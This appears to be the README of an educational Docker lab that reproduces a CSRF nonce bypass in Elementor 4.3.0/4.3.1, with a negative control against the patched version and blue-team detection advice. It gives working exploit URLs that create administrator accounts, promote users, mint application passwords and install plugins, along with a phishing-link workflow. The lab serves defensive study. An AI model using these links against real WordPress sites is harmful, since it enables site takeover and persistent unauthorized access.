

# POC-ELEMENTOR-CSRF — Pedagogical lab of the REST nonce bypass in Elementor 4.3.0/4.3.1



[Read this in Spanish](README.md)

Self-contained lab that **reproduces with real execution** the vulnerability
disclosed on 2026-09-25: a CSRF in Elementor's *Editor Events* module
(4.3.0/4.3.1) that **switches off WordPress REST API's only CSRF defense**
whenever the raw request URI contains the substring `elementor/v1/events/`.
On a default install: **one click by a logged-in admin creates another
administrator account** controlled by the attacker. No JavaScript. No form.
No attacker website. CVSS 8.8, up to ~2 million sites, reported by **Saggre**
via Patchstack, fixed in 4.3.2.

> A verifiable replica of a public finding with a single-variable negative
> control (vulnerable 4.3.1 vs patched 4.3.2, everything else identical).
> Educational and defensive. **Run it locally only** — see Responsible use.

---

## Quickstart

```bash
make lab             # victim: WordPress + Elementor 4.3.1 at http://localhost:8085
make fingerprint     # PHASE 1: passive recon (version, module present)
make link            # PHASE 2: build the malicious link + fake phishing email
make click           # PHASE 3: the admin's click -> HTTP 201, admin created
make verify          # PHASE 4: the backdoor account is a real administrator
make aportaciones    # PHASE 6 (ours): stealth door + dormant account escalation
make hardening-demo  # PHASE 7 (ours): the bypass defeats anti-CSRF hardening
make mitigacion-demo # PHASE 8: palliative verified A/B/C (experiment inactive)
make blast-radius    # PHASE 9 (ours): plugins via GET + WooCommerce vs the bypass
make demo-navegador  # REAL browser demo (CDP): login -> email -> click -> 201
make fuzz-subcadena  # 8-variant substring fuzzer
make detectar-iocs   # IOC detector over a sample access log (blue team)
make ctf             # CTF «La Subcadena Mágica»: challenge at :8087 + victim bot at :8089
make control         # negative control: Elementor 4.3.2 at http://localhost:8086
make control-click   # the SAME link against 4.3.2 -> HTTP 401 (patched)
make demo-flip       # PHASE 5: live root-cause diff victim vs control
make full-demo       # the whole chain from scratch
make capturas        # regenerate the PNG gallery (docs/img/)
make clean           # destroy everything
```

**Backdoor credentials are configurable** (any username/password/email —
the lab handles query encoding, spaces/`&`/`@` allowed):

```bash
make click USUARIO=sombra CLAVE='My P@ss&2026 !x' EMAIL=sombra@lab.test
make reset  USUARIO=sombra                      # selective cleanup
python3 cli/poc.py attack --acepta-responsabilidad --username sombra --password 'My P@ss&2026!'
```

Requirements: Docker, docker compose, curl, python3, make.
Lab credentials: `admin` / `admin` on both sites (it's a lab; the admin is
the victim).

## Architecture

| Service | Port | Stack | Role |
|---|---|---|---|
| `victima` | http://localhost:8085 | WP 7.1.2 + PHP 8.3 + Elementor **4.3.1** | Vulnerable target |
| `control` | http://localhost:8086 | WP 7.1.2 + PHP 8.3 + Elementor **4.3.2** | Negative control (profile `control`) |

Same base image for both: **the only experimental variable is the Elementor
version**. The entrypoint performs a clean install on first boot — which is
exactly the real-world exposure condition: the hidden `editor_events`
experiment is **active by default** on sites installed with Elementor ≥ 3.32.0.

## The bug, step by step

1. **How core defends REST**: for cookie-authenticated requests, the
   `wp_rest` nonce is the only CSRF defense. Without it,
   `rest_cookie_check_errors()` downgrades the user to anonymous — cookies
   without a nonce make you nobody.
2. **What Elementor 4.3.0 added**: a filter on `rest_authentication_errors`
   at **priority 0** returning `true` ("skip validation") whenever the raw
   `$_SERVER['REQUEST_URI']` *contains* `elementor/v1/events/`.
3. **The timing flaw**: the filter runs before routing, so the only thing to
   inspect is the raw URI — path **plus query string**, attacker-controlled.
4. **The chain reaction**: Elementor's early `true` makes the core's
   `rest_cookie_check_errors()` (priority 100) return *before* validating
   the nonce. The request keeps running as the admin. Every REST endpoint
   whose permission callback only checks `current_user_can()` — core's or
   any plugin's — becomes CSRF-able.
5. **The weapon — one link**:

   ```
   http://VICTIM/wp-json/wp/v2/users?_method=POST
       &username=csrfadmin&email=csrfadmin@lab.test&password=csrfadmin-PoC-2026
       &roles[]=administrator&x=elementor/v1/events/
   ```

   `_method=POST` turns the GET into a write; the trailing parameter
   switches off the nonce. An `<a href>` in an email, chat or comment.
   **One click.**
6. **The fix (4.3.2)**: read the *resolved* REST route
   (`$wp->query_vars['rest_route']`, no query string) with an anchored
   comparison. The magic substring can no longer travel in the URL. Full
   forensic diff in [`research/PARCHE.md`](research/PARCHE.md) (Spanish).

## Own contributions — beyond the advisory

Full detail with commands in
[`research/HALLAZGOS.md`](research/HALLAZGOS.md) (Spanish); all verified
against the lab via `make aportaciones` / `make hardening-demo`:

- **§1 “Stealth door”** — the same click creates an *Application Password*
  on the **admin’s own account**; the GET response returns the password in
  cleartext. From then on the attacker uses `Authorization: Basic`, which
  **never needs a nonce**. Persistence **without creating users** — deleting
  rogue users doesn’t evict it; app passwords must be revoked. Requires
  HTTPS (production default; the lab simulates it with
  `WP_ENVIRONMENT_TYPE=local`).
- **§2 “Dormant account escalation”** — if the attacker already holds a
  subscriber, one click promotes **that** account to administrator
  (`GET /wp-json/wp/v2/users/{id}?_method=POST&roles[]=administrator&x=elementor/v1/events/`).
  Zero new users: “recently created users” alerts never fire.
- **§3 The bypass also defeats anti-CSRF hardening** — a mu-plugin with the
  canonical security-plugin pattern (deny cookie-auth-without-nonce on
  `rest_authentication_errors`) blocks the plain attack (401) yet the same
  attack with the magic substring pierces it (201): Elementor spoke at
  priority 0 and the hardening stayed silent. **Until you update, “block
  cookie REST” does not protect against this CVE.**
- **§5 WooCommerce’s API-key wall falls too** (verified with WooCommerce
  11.1.2): `GET /wc/v3/system_status` goes 401 → **200** with the magic
  substring. On a store running Elementor 4.3.0/4.3.1 + WooCommerce, one
  click exposes the full store REST API. Core’s plugins endpoint falls as
  well: **two links install and activate any wp.org plugin** (201+200).
- Also verified in-house: the palliative (experiment `inactive`, A/B/C via
  `make mitigacion-demo`); **SameSite=Lax measured with a real browser**
  (CDP demo: login → email from `file://` → click → 201, GIF in docs/img);
  an 8-case substring fuzzer (8/8 as predicted, `%2F`/`%252F`/uppercase
  don’t trigger); an executable IOC detector (`make detectar-iocs`).
- Forensics: `%2F` disables the magic substring (raw-URI match); the
  substring nested in another parameter still triggers; 154 write endpoints
  reachable; WP sets no `SameSite` (browser-default Lax allows exactly the
  top-level navigation of an `<a href>`).
- Useful negatives: `/wp/v2/settings` does **not** expose
  `users_can_register`/`default_role`; no patch bypass found (all vectors
  return 401 on 4.3.2).

## CTF mode — “La Subcadena Mágica”

An isolated challenge instance (`make ctf`): WordPress + Elementor 4.3.1 at
**:8087 with anti-CSRF hardening active**, plus a **victim bot** at **:8089**
that clicks any URL you paste using the test admin’s session. Five
progressive flags force you to rediscover every vector of this repo
(fingerprint → create YOUR OWN admin with your chosen nick/password → leak
settings via nested substring → profile enumeration with `context=edit` →
stealth app-password validated behaviorally). Rules, hints and solution:
[`ctf/README.md`](ctf/README.md). The bot only talks to the challenge host
(anti-SSRF guard), uses a fresh session per click and never leaks cookies.

## Claim → verification map

Real captured evidence lives in
[`research/RESULTADOS.md`](research/RESULTADOS.md) (Spanish):

| # | Claim | Command | Expected |
|---|---|---|---|
| 1 | Cookie without nonce can't create users | `make click` ("without substring" block) | HTTP 401 |
| 2 | Magic substring in query disables the nonce | `make click` | HTTP **201**, `roles:["administrator"]` |
| 3 | Created account is a real admin | `make verify` | WP-CLI + `/wp-admin/users.php` 200 |
| 4 | Bypass applies to any REST route | `/wp/v2/settings?q=foo-elementor/v1/events/-bar` | 401 → **200** |
| 5 | Substring doesn't even need its own parameter | same, nested inside `q` | 200 |
| 6 | Patch neutralizes it | `make control-click` (4.3.2) | HTTP **401** |
| 7 | 4.3.0 and 4.3.1 ship identical vulnerable code | `diff` of official zips | byte-identical |
| 8 | Default exposure on clean installs | container log line for the experiment | empty ⇒ active |
| 9 | Bug lives in one function | `make demo-flip` | live diff |

## Mitigation & detection (blue team)

- **Real fix**: upgrade to **Elementor ≥ 4.3.2**.
- Temporary palliative: `wp option update elementor_experiment-editor_events inactive`
- **Access-log IOCs**: the telemetry substring appearing on requests that are
  not telemetry — e.g. `GET /wp-json/wp/v2/users?_method=POST&...&elementor/v1/events/`
- WAF rule: block requests whose query string contains `elementor/v1/events/`
  unless the path starts with `/wp-json/elementor/v1/events/`.
- Audit note: plugins returning `true` from `rest_authentication_errors` are
  a red flag by definition.

## Responsible use

Learn, teach defense, run against **localhost** — yes. Attack systems you
don't own, publish third-party data — no. `cli/poc.py` refuses non-local
hosts and invasive phases require `--acepta-responsabilidad`. Everything
runs in disposable local Docker containers.

## Credits

Found by **Saggre**, reported via **Patchstack** (2026-09-22); Elementor
patch 4.3.2 (2026-09-24); public advisory (2026-09-25). Sources:
[Patchstack](https://patchstack.com/articles/cross-site-request-forgery-in-elementor-plugin-affecting-2-million-sites) ·
[elhacker.net](https://blog.elhacker.net/2026/09/vulnerabilidad-en-elementor-para.html) ·
[BleepingComputer](https://www.bleepingcomputer.com/news/security/elementor-wordpress-flaw-lets-attackers-create-admin-accounts).
This repo adds: verified replica, single-variable negative control, forensic
patch analysis. The attack technique is not an original finding.

## License

[MIT](LICENSE) — 686f6c61, 2026. Distributed "as is" for educational and
defensive research purposes.
